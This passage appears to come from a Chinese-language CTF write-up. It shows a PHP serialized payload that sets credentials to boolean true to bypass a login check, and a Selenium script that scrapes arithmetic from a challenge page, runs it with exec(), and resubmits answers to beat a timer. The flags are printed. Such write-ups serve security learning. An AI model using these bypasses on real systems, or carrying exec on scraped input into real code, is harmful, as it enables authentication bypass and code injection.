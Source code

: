```
(
 [username] => 1
 [password] => 1
)
//序列化后的结果
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```
flag:CTF{this_is_flag}
### W2-web5
![5](/img/2019-04-19/5.png)
在1秒后，3秒内正确提交20次即可
```python
#-*-coding:utf-8
from selenium.webdriver import Chrome
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
import time
driver=Chrome(executable_path="D:\\Python27\\chromedriver.exe")
login_url="http://39.98.216.116:32795/"
driver.get(login_url)
for i in range(20):
    print '<--test%d-->'%i
    list1 = driver.find_elements_by_tag_name('div')
    tmp = ''
    for i in list1:
        tmp += i.text
    tmp = tmp[:-1]
    print tmp
    tmp = 'res = '+tmp
    exec(tmp)
    print res
    list2 = driver.find_elements_by_tag_name("input")
    list2[0].send_keys(res)
    time.sleep(1)
    list2[1].click()
```
flag:ctf{gr3At_cAcu1a7or}
### W3-web1
在响应头的hint可以看到index.php的源码